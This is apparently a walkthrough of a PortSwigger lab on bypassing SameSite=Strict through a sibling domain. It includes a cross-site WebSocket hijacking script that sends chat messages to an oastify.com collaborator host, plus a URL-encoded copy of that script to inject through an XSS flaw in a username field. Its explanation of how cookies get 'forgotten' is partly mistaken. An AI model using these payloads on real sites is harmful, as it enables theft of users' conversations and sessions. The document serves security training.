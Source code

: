 ## SameSite Strict bypass via sibling domain


<img width="861" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c7edb606-07a2-43f8-a589-0999888a3326">

## Solutions:

Now we go to the lab website:
![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/e677c6be-0f45-4393-87ac-e206efa9ef2f)


Ok, note that there is a “Live Chat” on the right-hand side on the top. We click that.

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/2d6f3a2a-1cc2-4ec6-976d-e46c87b184c5)

This is because our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value.

The SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent. And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.

In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

<script>
    var ws = new WebSocket('wss://0aeb00f70330c49787095bd20001002f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://q6xfzxmd09sge3zxbmgy9uwqnht8hy5n.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>



Because this exploit visits the /chat webpage by code, thus no sessions would be sent, and you can not see the chat history at all! Since now the session is already forgotten by our browser, we need to re-enter some words in the /chat webpage and sent that again to create some chat history.

This web page contains a cross-site scripting (XSS) vulnerability. You can execute arbitrary javascript code in the Username field.

Store and view the exploit .

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/92ae1443-4d68-4430-a39b-05295f4ebc80)


%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%30%35%30%30%33%33%30%33%34%36%34%61%30%35%38%31%39%31%30%32%34%66%30%30%36%39%30%30%32%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6b%6f%63%73%31%69%76%37%75%73%31%32%69%33%64%38%33%35%68%73%69%79%35%33%68%75%6e%6c%62%62%7a%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.
